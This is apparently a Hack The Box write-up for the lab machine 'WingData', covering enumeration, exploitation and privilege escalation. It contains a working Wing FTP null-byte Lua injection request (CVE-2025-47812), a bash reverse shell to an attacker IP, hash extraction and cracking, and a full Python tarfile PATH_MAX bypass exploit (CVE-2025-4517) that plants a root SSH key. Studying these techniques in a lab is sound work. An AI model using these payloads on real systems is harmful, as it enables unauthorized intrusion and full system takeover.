

## 🖥️ Machine Information

<div class="htb-info-card">
  <div class="htb-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="htb-machine-title">WingData</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="htb-diff-badge easy">EASY</span>
  </div>

  <div class="htb-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="htb-meta-col">
      <span class="htb-meta-label">Release Date</span>
      <span class="htb-meta-val green">14 Feb 2026</span>
    </div>
    <div class="htb-meta-col">
      <span class="htb-meta-label">IP Address</span>
      <span class="htb-meta-val" style="font-family: monospace; font-size: 0.95rem;">10.129.244.106</span>
    </div>
    <div class="htb-meta-col">
      <span class="htb-meta-label">OS</span>
      <span class="htb-meta-val">🐧 Linux</span>
    </div>
    <div class="htb-meta-col">
      <span class="htb-meta-label">Difficulty</span>
      <span class="htb-meta-val">Easy</span>
    </div>
  </div>

  <div class="htb-section-row horizontal">
    <span class="htb-section-label">Rated Difficulty</span>
    <div class="htb-bar-chart">
      <div class="htb-bar active-green" style="height: 8px;"></div>
      <div class="htb-bar active-green" style="height: 15px;"></div>
      <div class="htb-bar active-green" style="height: 35px;"></div>
      <div class="htb-bar active-orange" style="height: 20px;"></div>
      <div class="htb-bar active-orange" style="height: 12px;"></div>
      <div class="htb-bar" style="height: 8px;"></div>
      <div class="htb-bar" style="height: 6px;"></div>
      <div class="htb-bar" style="height: 4px;"></div>
      <div class="htb-bar active-red" style="height: 2px;"></div>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> WingData runs a Wing FTP Server instance with anonymous access enabled. The attack chain involves:
> - **CVE-2025-47812**: Null-byte injection in the Wing FTP web login smuggles Lua code into the session `.lua` file, yielding RCE as `wingftp`.
> - **Hash Cracking**: Wing FTP stores salted SHA256 hashes in XML config files; crack wacky's hash and reuse the password over SSH.
> - **CVE-2025-4517**: A sudo-allowed Python backup script calls `tarfile.extractall(filter="data")`; exploit a `PATH_MAX` overflow to bypass the data filter and write an SSH key into `/root/.ssh/`.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We begin by running a standard Nmap scan to discover open ports and running services:

```bash
sudo nmap -p- --reason --min-rate 10000 10.129.244.106
```

Only 2 open ports are discovered:
- **Port 22/tcp**: SSH (OpenSSH 9.2p1 Debian 2+deb12u7)
- **Port 80/tcp**: HTTP (Apache httpd 2.4.66 → redirect to `wingdata.htb`)

*Note: OpenSSH version maps to Debian 12 Bookworm. TTL 63 indicates a Linux machine one hop away.*

### 2. Subdomain Enumeration
We execute subdomain enumeration using `ffuf`:

```bash
ffuf -u http://10.129.244.106 -H "Host: FUZZ.wingdata.htb" \
  -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -ac
```

We find the FTP subdomain:
- **ftp.wingdata.htb** [Status: 200, Size: 678]

Add both domains to `/etc/hosts`:
```text
10.129.244.106  wingdata.htb ftp.wingdata.htb
```

#### wingdata.htb — Static Marketing Site
An Apache/Debian static site. The "Client Portal" link leads to `ftp.wingdata.htb`. Directory brute force returns only static assets — nothing actionable.

#### ftp.wingdata.htb — Wing FTP Server
- **Server**: Wing FTP Server (Free Edition)
- **Version**: v7.4.3 (shown in page footer)

Anonymous login works out of the box (default Wing FTP behavior). No admin panel access without credentials.

---

## 🚀 Phase 2: Vulnerability Analysis & Foothold

### 1. CVE-2025-47812 — Null-Byte Lua Code Injection
**Background**: Wing FTP Server before v7.4.4 mishandles `\0` bytes in the username field. The name check stops at the null byte (sees a valid username), but the full string is written into the session file as `<cookie>.lua`. Any Lua code appended after the `\0` executes when the session is loaded.

**Impact**: CVSS 10.0 — unauthenticated RCE, exploitable via anonymous accounts.

Normal session file structure:
```lua
_SESSION['username']=[[anonymous]]
_SESSION['ipaddress']=[[10.10.14.51]]
_SESSION['currentpath']=[[/]]
```

Crafted username payload:
```lua
anonymous\0]]
local h = io.popen("id")
local r = h:read("*a")
h:close()
print(r)
--
```

Resulting malicious session file:
```lua
_SESSION['username']=[[anonymous\0]]
local h = io.popen("id")
local r = h:read("*a")
h:close()
print(r)
--]]
_SESSION['ipaddress']=[[10.10.14.51]]
_SESSION['currentpath']=[[/]]
```
The `--` comments out the trailing `]]`, making it valid Lua. The injected code runs on every page load with the malicious cookie.

### 2. Exploitation & Initial Shell

#### Step 1 — Inject the Payload (Burp Repeater)
Send a login POST to `ftp.wingdata.htb` with URL-encoded username:
```http
POST /login.html HTTP/1.1
Host: ftp.wingdata.htb
Content-Type: application/x-www-form-urlencoded

username=anonymous%00%5D%5D%0Alocal+h+%3D+io.popen(%22id%22)%0Alocal+r+%3D+h%3Aread(%22*a%22)%0Ah%3Aclose()%0Aprint(r)%0A--&password=
```
The response sets a new session cookie.

#### Step 2 — Trigger Execution
Load `/dir.html` with that cookie → `id` output appears at the top of the page:
```text
uid=1000(wingftp) gid=1000(wingftp) groups=1000(wingftp)
```
*Note: Wing FTP does not run as root (unlike the real-world default).*

#### Step 3 — Reverse Shell
Replace `id` with a bash reverse shell in the Burp Repeater tab:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'
```
Trigger the new cookie → shell connects:
```bash
nc -lnvp 443
# wingftp@wingdata:/opt/wftpserver$
```

Upgrade the shell:
```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
# Terminal type? screen
```

---

## 🗺️ Phase 3: Lateral Movement & SSH Access

### 1. Extracting Password Hashes
Wing FTP stores accounts as XML files. Pull all password hashes:
```bash
find /opt/wftpserver/Data -name '*.xml' | xargs grep -i -e salt -e password
# EnablePasswordSalting: 1
# SaltingString: WingFTP
# EnableSHA256: 1
```
**Format**: `SHA256(password + "WingFTP")`

Extract all hashes in hashcat format (`hash:salt`):
```bash
grep -r "<Password>" /opt/wftpserver/Data | \
  sed -E 's#.*/([^/]+)\.xml:.*<[^>]+>([0-9a-fA-F]+)</[^>]+>.*#\2:WingFTP#' \
  | tee wingftp.hashes
```

Output:
```text
a8339f8e...:WingFTP   (admin)
a70221f3...:WingFTP   (maria)
5916c748...:WingFTP   (steve)
32940def...:WingFTP   (wacky)
d67f8615...:WingFTP   (anonymous)
c1f14672...:WingFTP   (john)
```

### 2. Cracking with Hashcat
Hashcat mode `1410` corresponds to `sha256($pass.$salt)`:
```bash
hashcat -m 1410 --user wingftp.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
# 32940def...:WingFTP  →  !#7Blushing^*Bride5   (wacky)
# d67f8615...:WingFTP  →  (empty)               (anonymous)
```

We log in as `wacky` via SSH:
```bash
sshpass -p '!#7Blushing^*Bride5' ssh wacky@wingdata.htb
# wacky@wingdata:~$
cat ~/user.txt
```

---

## ⚡ Phase 4: Privilege Escalation

### 1. Enumeration
Check sudo privileges:
```bash
sudo -l
# (root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Script analysis (`restore_backup_clients.py`):
```python
BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE    = "/opt/backup_clients/restored_backups"

# Constraints enforced:
# -b  →  must match backup_<digits>.tar   (no path traversal possible)
# -r  →  must start with restore_ + [a-zA-Z0-9_]{1,24}

with tarfile.open(backup_path, "r") as tar:
    tar.extractall(path=staging_dir, filter="data")   # ← vulnerable line
```
The `filter="data"` in Python 3.12.3 is vulnerable to **CVE-2025-4517**.

### 2. CVE-2025-4517 — Python tarfile data Filter PATH_MAX Bypass
**Vulnerability**: The data filter validates link targets by calling `os.path.realpath()` in non-strict mode. If the path being resolved exceeds `PATH_MAX` (4096 bytes on Linux), `realpath` gets `ENAMETOOLONG`, stops resolving silently, and appends the rest literally. The filter sees a safe-looking path and allows it, but the OS follows the real symlink during extraction — writing outside the extraction directory.

**Primitive**: Arbitrary file write (create or overwrite any file accessible to root).

#### Building the Malicious Archive
```python
import tarfile, os, io, sys

comp  = 'd' * 247          # 247 chars × 16 dirs = ~3952 bytes (approaching PATH_MAX)
steps = "abcdefghijklmnop" # 16 single-letter symlink names

with tarfile.open("/opt/backup_clients/backups/backup_223.tar", mode="x") as tar:

    # 1. Build the chain of long dirs + symlinks that inflates the resolved path
    path = ""
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)
        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)
        path = os.path.join(path, comp)

    # 2. Overflow symlink — 254 chars pushes path over PATH_MAX
    #    realpath gets ENAMETOOLONG → stops here → never follows this symlink
    linkpath = os.path.join("/".join(steps), "l" * 254)
    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = "../" * len(steps)   # escapes back to extraction root
    tar.addfile(l)

    # 3. escape → symlink through the overflow to /root
    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../root"   # lands at /root
    tar.addfile(e)

    # 4. Write authorized_keys into /root/.ssh/ through the escape symlink
    pub_key = b"\nssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d vulnq@htb\n"
    c = tarfile.TarInfo("escape/.ssh/authorized_keys")
    c.type = tarfile.REGTYPE
    c.size = len(pub_key)
    tar.addfile(c, fileobj=io.BytesIO(pub_key))
```

#### Execution
Run the custom Python script to create the tar file:
```bash
python3 poc.py   # creates /opt/backup_clients/backups/backup_223.tar
```

Execute the restore script as root:
```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py \
  -b backup_223.tar -r restore_vulnq
# [+] Backup: backup_223.tar
# [+] Staging directory: /opt/backup_clients/restored_backups/restore_vulnq
# [+] Extraction completed in /opt/backup_clients/restored_backups/restore_vulnq
```

#### Spawning Root Shell
```bash
ssh -i ~/.ssh/id_ed25519 root@wingdata.htb
# root@wingdata:~#
cat /root/root.txt
```

---

## 🔑 Credentials Summary

| Account | Credential | Method |
|---|---|---|
| `wingftp` | — | CVE-2025-47812 RCE (anonymous login) |
| `wacky` | `!#7Blushing^*Bride5` | Hashcat SHA256+salt (mode 1410) |
| `root` | SSH key | CVE-2025-4517 arbitrary file write |

---

## ⚡ Key Techniques

| Phase | Technique | Detail |
|---|---|---|
| **Initial Access** | Null-byte Lua injection | CVE-2025-47812 · Wing FTP ≤ 7.4.3 |
| **Code Trigger** | Load session cookie | Lua executes on `/dir.html` load |
| **Hash Extraction** | XML config files | `/opt/wftpserver/Data/1/users/*.xml` |
| **Hash Cracking** | SHA256($pass.$salt) | Hashcat mode 1410 · salt = `WingFTP` |
| **Lateral Movement** | Password reuse | `wacky` FTP password = SSH password |
| **Privilege Escalation** | PATH_MAX overflow | CVE-2025-4517 · Python 3.12.3 tarfile |
| **Root Write Primitive** | Symlink chain → `/root/.ssh/` | Arbitrary file write as root |

---

## 🔗 References
* **CVE-2025-47812**: Wing FTP RCE
* **CVE-2025-4517**: Python tarfile data filter bypass
* **Seth Larson**: Five tarfile CVEs
* **CISA KEV**: CVE-2025-47812
* **Python tarfile**: extraction filters documentation
